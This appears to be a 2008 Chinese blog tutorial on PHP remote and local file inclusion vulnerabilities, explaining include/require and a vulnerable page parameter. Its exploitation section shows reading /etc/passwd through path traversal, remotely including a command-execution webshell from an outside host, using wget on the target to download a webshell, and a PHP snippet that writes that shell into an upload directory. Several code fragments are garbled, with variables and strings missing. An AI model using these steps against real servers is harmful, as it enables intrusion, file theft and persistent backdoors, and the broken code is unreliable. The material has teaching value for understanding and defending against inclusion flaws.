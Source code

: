 ```yaml
---
title: 远程包含和本地包含漏洞的原理
description: 首先，我们来讨论包含文件漏洞,首先要问的是,什么才是"远程文件包含漏洞"？回答是：服务器通过php的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可去包含一个恶意文件，而我们可以构造这个恶意文件来达到邪恶的目的。几乎所有的cgi程序都有这样的bug，只是具体的表现方式不一样罢了。
date: 2008-05-15 09:41:12
category: 技术文章
tags: ['远程文件包含RFI', '原理']
post_id: 482
alias: RFI-yuancheng-wenjian-baohan-loudong-yuanli
ViewNums: 4662
---
```


首先，我们来讨论包含文件[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF),首先要问的是,什么才是"远程文件包含漏洞"？回答是：服务器通过[php](/tags/PHP)的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可去包含一个恶意文件，而我们可以构造这个恶意文件来达到邪恶的目的。几乎所有的 cgi程序都有这样的 bug，只是具体的表现方式不一样罢了。

一、涉及到的危险函数〔include(),require()和include_once(),require_once()〕
```php
include() && require()语句:包括并运行指定文件。
```
这两种结构除了在如何处理失败之外完全一样。include() 产生一个警告而 require() 则导致一个致命错误。换句话说，如果你想在遇到丢失文件时停止处理页面就用 require()。include() 就不是这样，脚本会继续运行。
如果"allow_url_fopen"在 PHP 中被激活（默认配置），也可以用 URL（通过 HTTP 或者其它支持的封装协议）而不是本地文件来指定要被包括的文件。如果目标服务器将目标文件作为 PHP 代码解释，则可以用适用于HTTP GET 的 URL 请求字符串来向被包括的文件传递变量。
```php
require_once()　＆＆　include_once()
```
require_once ()和include_once() 语句在脚本执行期间包括并运行指定文件。此行为和 require() 语句类似，唯一区别是如果该文件中的代码已经被包括了，则不会再次包括。适用于在[脚本](/tags/%E8%84%9A%E6%9C%ACScript)执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

二、为什么要包含文件

程序员写程序的时候，不喜欢干同样的事情，也不喜欢把同样的代码（比如一些公用的函数）写几次，于是就把需要公用的代码写在一个单独的文件里面，比如 share.php，而后在其它文件进行包含调用。在[php](/tags/PHP)里，我们就是使用上面列举的那几个函数来达到这个目的的，它的工作流程：如果你想在 main.php里包含share.php,我将这样写include("share.php")就达到目的，然后就可以使用share.php中的函数了，像这个写死需要包含的文件名称的自然没有什么问题，也不会出现漏洞，那么问题到底是出在哪里呢？
有的时候可能不能确定需要包含哪个文件，比如先来看下面这个文件index.php的代码：

CODE:
--------------------------------------------------------------------------------
```php
if ([page]) {
include GET[page];
} else {
include "home.
}
```
很正常的一段PHP代码，它是怎么运作的呢？这里面涉及到GET的意义，我就不打算讲了（要不又能写篇HTTP的文章了），如果你还不了解GET，POST,等，那么你需要再Google一些相关的资料好好补一补了。
上面这段代码的使用格式可能是这样的：http://www.1steam.cn/php/index.php?page=main.php或者http: //www.1steam.cn/php/index.php?page=downloads.php ,结合上面代码，简单说下怎么运作的：

1.提交上面这个URL，在index.php中就取得这个page的值（_GET[page]）。
2.判断GET[page]是不是空，若不空（这里是main.php）就用include来包含这个文件。
3.若_GET[page]空的话就执行else，来include　home.php　这个文件。

三、为什么会产生漏洞

你也许要说，这样很好呀，可以按照URL来动态包含文件，多么方便呀，怎么产生漏洞的呢？问题的答案是：我们不乖巧，我们总喜欢和别人不一样，我们不会按照他的链接来操作，我们可能想自己写想包含（调用）的文件，比如我们会随便的打入下面这个URL：http: //www.1steam.cn/php/index.php?page=hello.php。然后我们的index.php程序就傻傻按照上面我们说得步骤去执行：取page为hello.php，然后去include(hello.php)，这时问题出现了，因为我们并没有hello.php这个文件，所以它 include的时候就会报警告，类似下列信息：
```shell
Quote:
Warning: include(hello.php) [function.include]: failed to open stream: No such file or directory in /vhost/wwwroot/php/index.php on line 3
Warning: include() [function.include]: Failed opening 'hello.php' for inclusion (include_path='.:') in /vhost/wwwroot/php/index.php on line 3
```
注意上面的那个Warning就是找不到我们指定的hello.php文件，也就是包含不到我们指定路径的文件；而后面的警告是因为前面没有找到指定文件，所以包含的时候就出警告了。

四、怎么利用

上面可以看到，问题出现了，那么我们怎么利用这样的漏洞呢，利用方法其实很多，但是实质上都是差不多的，我这里说三个比较常见的利用方法：

1.包含读出目标机上其它文件

由前面我们可以看到，由于对取得的参数page没有过滤，于是我们可以任意指定目标主机上的其它敏感文件，例如在前面的警告中，我们可以看到暴露的绝对路径(vhost/wwwroot/php/)，那么我们就可以多次探测来包含其它文件，比如指定URL为：http: //www.1steam.cn/php/index.php?page=./txt.txt 可以读出当前路径下的txt.txt文件，也可以使用.. /../进行目录跳转（在没过滤../的情况下）；也可以直接指定绝对路径，读取敏感的系统文件，比如这个URL：http: //www.1steam.cn/php/index.php?page=/etc/passwd ，如果目标主机没有对权限限制的很严格，或者启动 Apache的权限比较高，是可以读出这个文件内容的。否则就会得到一个类似于：open_basedir restriction in effect.的Warning。

2.包含可运行的PHP木马

如果目标主机的"allow_url_fopen"是激活的（默认是激活的，没几个人会修改），我们就可以有更大的利用空间，我们可以指定其它URL上的一个包含PHP代码的webshell来直接运行，比如，我先写一段运行命令的PHP代码（加了注释，应该看得懂），如下保存为cmd.txt（后缀不重要，只要内容为PHP格式就可以了）。

以上这个文件的作用就是接受cmd指定的命令，并调用passthru函数执行，把内容返回在1.S.T之间。把这个文件保存到我们主机的服务器上（可以是不支持PHP的主机），只要能通过HTTP访问到就可以了，例如地址如下：http: //www.1ster.cn/cmd.txt ,然后我们就可以在那个漏洞主机上构造如下URL来利用了：http: //www.1steam.cn/php/index.php?page=http://www.1ster.cn/cmd.txt?cmd=ls ,其中 cmd后面的就是你需要执行的命令，其它常用的命令（以*UNIX为例）如下：

Quote:
ll 列目录、文件（相当于Windows下dir)
pwd 查看当前绝对路径
id whoami 查看当前用户
wget　下载指定URL的文件

等等其它的，你主机去BAIDU找吧，就不列举了。

上面的方法就是得到一个Webshell了（虽然这个PHP文件不在目标机上，但是它确实是个Webshell，不是么？呵呵）

3.包含一个创建文件的PHP文件

也许有的人认为还是得到目标机上的一个真实的Webshell比较放心，万一哪天人家发现这儿个包含漏洞修补了，我们就不能再远程包含得到上面的那个"伪 "Webshell了，不是么？可以理解这个心态，我们继续。得到一个真实的Webshell，我们也说两种常见的方法：

1)使用wget之类的命令来下载一个Webshell

这个比较简单，也很常用，在上面我们得到的那个伪webshell中，我们可以执行命令，那么我们也可以调用系统中的一个很厉害的角色， wget，这个命令的强大你可以google下，参数一大堆，绝对搞晕你，呵呵，我们不需要那么复杂，我们就使用一个-O（--output- document=FILE，把文档写到FILE文件中） 就可以了，呵呵。

前提是你在按照前面的步骤放一个包含PHP代码的Webshell在一个可以通过HTTP或者FTP等可以访问的地方，比如：http: //www.1ster.cn/1stphp.txt ,这个文件里写的就是Webshell的内容。然后我们在前面得到的伪Webshell中执行如下的 URL：http://www.1steam.cn/php/index.p ... w.1ster.cn/cmd.txt? cmd=wget http://www.1ster.cn/1stphp.txt -O 1stphp.php ，如果当前目录可写，就能得到一个叫做1stphp.php的Webshell了；如果当前目录不可写，还需要想其它的办法。

2）使用文件来创建

前面的wget可能会遇到当前目录不能写的情况；或者目标主机禁用了（或者没装）这个命令，我们又需要变通一下了，我们可以结合前面的包含文件漏洞来包含一个创建文件（写文件）的PHP脚本，内容如下：

CODE:
--------------------------------------------------------------------------------
```php
$f=file_get_contents("www.1ster.cn/1stphp.打开指定路径的文件流
$=fopen("./upload/1st.php","a"); 　　　　//寻找一个可以的目录，创建一个文件
fwrite (,$f); 　//把前面打开的文件流写到创建的文件里
fclose(); 　　　//关闭保存文件
?>
```
还是写入我们上面用wget下载的那个php文件，但是我们改进了方法，用PHP脚本来实现，可以使用上面的cmd.php?cmd=ll查找可以写的目录，比如这里的upload，然后把文件创建在这个目录下：./upload/1st.php。然后就得到我们的Webshell了。

